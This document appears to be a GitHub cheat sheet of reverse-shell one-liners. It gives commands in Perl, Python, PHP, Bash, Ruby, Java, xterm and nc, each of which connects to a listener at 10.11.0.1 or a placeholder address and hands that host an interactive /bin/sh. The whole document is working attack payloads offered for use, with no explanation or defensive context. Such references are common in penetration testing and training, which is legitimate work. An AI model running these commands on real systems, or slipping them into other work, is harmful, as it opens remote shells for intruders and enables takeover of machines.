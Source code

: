 [Perl](#Perl)
[Python](#Python)
[PHP](#PHP)
[Bash](#Bash)
[Ruby](#Ruby)
[Java](#Java)
[xterm](#xterm)
[nc](#nc)

### Perl
```
perl -e 'use Socket;$i="10.11.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP
```
php -r '$sock=fsockopen("10.11.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Bash
```
bash -i >& /dev/tcp/10.11.0.1/8080 0>&1
```

### Ruby
```
ruby -rsocket -e'f=TCPSocket.open("<your _p>",<your_port>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.11.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### xterm
```
xterm -display 10.11.0.1:1
```

### nc
```
nc -e /bin/sh 10.11.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> <your_port> >/tmp/f
```


